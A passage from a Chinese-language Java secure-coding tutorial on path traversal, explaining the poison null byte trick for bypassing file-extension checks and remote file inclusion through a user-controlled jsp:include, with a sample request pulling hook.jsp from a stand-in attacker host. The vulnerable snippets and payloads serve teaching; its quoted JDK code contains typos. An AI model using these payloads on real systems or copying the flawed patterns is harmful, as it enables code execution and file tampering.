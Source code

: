 #13.路径遍历漏洞二
  
  上一篇提过，下载或上传处理不当很容易造成任意文件下载漏洞和任意路径文件上传漏洞。
  
  其实，坑不仅仅只有这个。如果以下这些坑你没意识去主动避免，那么很有可能哪一天就掉进去了。

##13.1 绕开后缀判断

```java
// 请求路径：http://example.com?name=github.jsp%00.jpg
String name = request.getParameter("name");

if (name.matches(".*\\.jpg")) {
	File file = new File(name);
	file.createNewFile();

	System.out.println("规范路径 : " + file.getCanonicalPath());
}
```

在很多操作系统中，控制字符%00被用于注入到文件名中，例如下面这个URL：
```
http://example.com?name=github.jsp%00.jpg
```
在Java应用看来，改文件名是以.jpg结尾的，而操作系统在碰到%00就被截断了，所以操作系统只能看到的是以.jsp结尾的。这个攻击用于绕开应用程序对文件后缀的检查。 

__控制字符`%00-%1f`最初是用于控制硬件设备，控制字符在URL中是无意的。__

##13.1拓展阅读

其实13.1提高奥的攻击叫__Poison Null Byte__，不仅仅是Java，其实在其他语言中一样存在。参考：http://hakipedia.com/index.php/Poison_Null_Byte

Java在较新的版本中，已经修复了这个漏洞，代码如下：

```java
public class File {
 ...
 
 public boolean createNewFile() throws IOException {
 	 SecurityManager security = System.getSecurityManager();
 	 if(security != null) security.checkWrite(path);
 	 if(iwInvalid()){
 	   throw new IOEception("Invalid file path");
 	 }
 	 return fs.createFileExclusively(path);
 }
 
 final boolean isInvalid() {
    if (status == null) {
        status = (this.path.indexOf('\u0000') < 0) ? PathStatus.CHECKED
                                                   : PathStatus.INVALID;
    }
    return status == PathStatus.INVALID;
 }
}
```

如果pathame中存在控制字符NUL，则抛出IOEception异常。

##13.2 远程文件包含

有些蛋疼的程序员会在jsp标签中包含远程文件，当然，这不是关键，关键是允许用户传参指定包含的文件，这时候**远程文件包含**漏洞就出现了。如果远程包含的文件里面包含jsp代码，那么Web容器就会执行这段代码，从而导致了漏洞的发生。例如：

```jsp
<jsp:include page="<%=remotePage%>" flush="true"/>
```
请求如下：
> http://example.com/?remotePage=http://hacker.com/hook.jsp

结果是hook.jsp文件里面的恶意代码会被&lt;jsp:include&gt;标签包含并执行。

## 参考资料
 * https://www.owasp.org/index.php/Path_Traversal
 * http://www.w3schools.com/tags/ref_urlencode.asp
 * https://www.owasp.org/index.php/File_System#Path_traversal

<!--- This is very useful for collecting feedback in a collaborative document. -->
